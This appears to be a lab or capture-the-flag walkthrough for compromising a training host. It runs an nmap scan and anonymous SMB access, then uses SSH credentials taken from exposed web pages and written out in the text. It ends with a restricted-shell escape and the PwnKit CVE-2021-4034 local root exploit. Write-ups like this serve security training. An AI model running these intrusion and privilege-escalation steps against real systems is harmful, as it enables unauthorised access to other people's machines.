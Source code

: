
```bash
nmap -Pn 10.11.1.101  

Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-21 11:35 EST
Nmap scan report for 10.11.1.101
Host is up (0.042s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT    STATE    SERVICE
21/tcp  open     ftp
22/tcp  open     ssh
25/tcp  filtered smtp
80/tcp  open     http
139/tcp open     netbios-ssn
445/tcp open     microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 1.67 seconds

```


## Foothold

```bash
smbclient -N \\\\10.11.1.101\\print$ # listable and there are stuff
```

- Found on website __password maybe somewhere on site__ 

> We are slowly giving our employees access to the webserver in order for them to start working on their new projects, the order in which access will be granted is as follows:  
>- Administrators  
>- Developers  
>- Web Developers  
>- Writers  
>You can grab the passwords from the usual place, remember KEEP IT SECRET!

http://10.11.1.101/passwords/

http://10.11.1.101/passwords/alfred-pas.html 
- Contact Us page has his year `1988`

```bash
alfred/IHopeThisDoesNotExpire # SSH creds
```

## Priv Esc

- Escape restricted shell
```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```

- linpeas: https://github.com/berdav/CVE-2021-4034

```bash 
tar cf main.tar CVE-2021-4034-main
# download tar to machine
tar xvf main.tar
cd CVE-2021-4034
make
./cve-2021-4034 # root
```